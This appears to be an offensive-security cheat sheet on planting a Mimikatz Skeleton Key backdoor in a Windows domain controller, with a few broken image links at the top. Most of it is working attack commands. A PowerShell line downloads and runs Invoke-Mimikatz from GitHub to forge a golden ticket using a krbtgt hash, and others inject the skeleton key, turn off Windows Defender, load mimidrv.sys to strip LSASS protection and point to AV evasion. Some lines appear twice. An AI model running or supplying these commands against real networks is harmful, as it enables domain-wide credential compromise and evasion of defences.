




Inject a Skeleton Key
LSASS protected process
From Windows Server 2012 R2 and Windows 8.1 lsass.exe can be made a protected process, and hashes are no longer stored in memory.
To enable/disable LSASS protection(to take effect the DC need to restart), on command line:
◇ enable LSASS protection
PS> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL #query for the value of RunAsPPL
PS> reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 1 /f #enable LSA protection on the machine
PS> reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 1 /f #enable LSA protection on the machine
check it with Sysinternals Process Explorer

◇ disable LSASS protection
C:\> reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 0 /f #disable LSA protection on the machine
check it with Sysinternals Process Explorer

• LSASS protection disabled(or before Windows Server 2012 R2 and Windows 8.1):
0. Once we have Domain Admin rights for example thannks to a Golden Ticket
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DANIELE.local /sid:S-1-5-21-2492168702-2322743348-3414347950 /krbtgt:fde97d36054bc731495f5d88f458a7ce /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
1. Inject a Skeleton Key in the Domain Controller. The Skeleton Key would be “mimikatz”
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostnameDC>.<FQDN>

• LSASS protection enabled(from Windows Server 2012 R2):
0. To verify that it is ebabled
PS> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL #the value is 0x1(hexadecimal of 1
mimikatz# sekurlsa::logonPasswords #we will get a handling error memory
mimikatz# sekurlsa::logonPasswords #we will get a handling error memory

1. To bypass this restriction we need to load the mimikatz driver “mimidrv.sys” from the current working directory of mimikatz
This mean also we cannot use the the Invoke-Mimikatz.ps1 script.
From mimikatz on the DC:
PS> Set-MpPreference -DisableRealtimeMonitoring $true #Disable Windows Defender(from Windows Server 2016)
PS> \mimikatz.exe #run mimikatz as Administrator
mimikatz# privilege::debug #
mimikatz# !+ #load the driver mimidrv.sys
mimikatz# !processprotect /process:lsass.exe /remove #Remove Protection
mimikatz# misc::skeleton
mimikatz# !- #remove the driver mimidrv.sys
PS> \mimikatz.exe #run mimikatz as Administrator
mimikatz# privilege::debug #
mimikatz# !+ #load the driver mimidrv.sys
mimikatz# !processprotect /process:lsass.exe /remove #Remove Protection
mimikatz# misc::skeleton
mimikatz# !- #remove the driver mimidrv.sys

To understand how the mimdrv.sys driver work see the article of @matterpreter
Note anyway that the command above will be very noisy in logs, because of Service Installation(Kernel mode driver). Moreover because of the hash and composition of the file is known for the last 7 years. Even the least competent AV will probably detect it.
For AV evasion there is a great post of @gorkemkaradeniz
Bibliography:
• GitHub Invoke-Mimikatz.ps1: https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
• https://www.scip.ch/en/?labs.20200116
• https://support.authlogics.com/hc/en-us/articles/360012317780-PPA-does-not-function-when-Windows-Local-Security-Authority-LSA-Protection-is-enabled?mobile_site=true